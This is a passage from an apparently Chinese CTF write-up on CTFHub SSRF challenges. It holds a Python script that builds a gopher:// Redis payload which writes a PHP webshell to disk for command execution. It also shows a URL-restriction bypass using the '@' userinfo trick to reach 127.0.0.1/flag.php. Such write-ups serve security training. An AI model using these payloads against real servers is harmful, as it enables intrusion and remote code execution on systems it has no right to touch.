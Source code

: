 >        "set 1 {}".format(shell.replace(" ", "${IFS}")),
>        "config set dir {}".format(path),
>        "config set dbfilename {}".format(filename),
>        "save"
>        ]
> if passwd:
>     cmd.insert(0, "AUTH {}".format(passwd))
> payload_prefix = protocol + ip + ":" + port + "/_"
> CRLF = "\r\n"
> 
> 
> def redis_format(arr):
>     redis_arr = arr.split(" ")
>     cmd_ = ""
>     cmd_ += "*" + str(len(redis_arr))
>     for x_ in redis_arr:
>         cmd_ += CRLF + "$" + str(len((x_.replace("${IFS}", " ")))) + CRLF + x_.replace("${IFS}", " ")
>     cmd_ += CRLF
>     return cmd_
> 
> 
> if __name__ == "__main__":
>     payload = ""
>     for x in cmd:
>         payload += parse.quote(redis_format(x))  # url编码
>     payload = payload_prefix + parse.quote(payload)  # 再次url编码
>     print(payload)
> ```
>
> 传入后访问生成的shell.php用参数进行命令执行即可

ps：当然也可以gopherus直接生成payload

## bypass

### URL Bypass

> 请求的URL中必须包含http://notfound.ctfhub.com，来尝试利用URL的一些特殊地方绕过这个限制吧

这里利用url的格式绕过即可

```
?url=http://notfound.ctfhub.com@127.0.0.1/flag.php
```

- php的curl默认读取@后面的部分

  ```
  http://abc@127.0.0.1
  实际上是以用户名abc连接到站点127.0.0.
  ```

- ?后默认为get参数
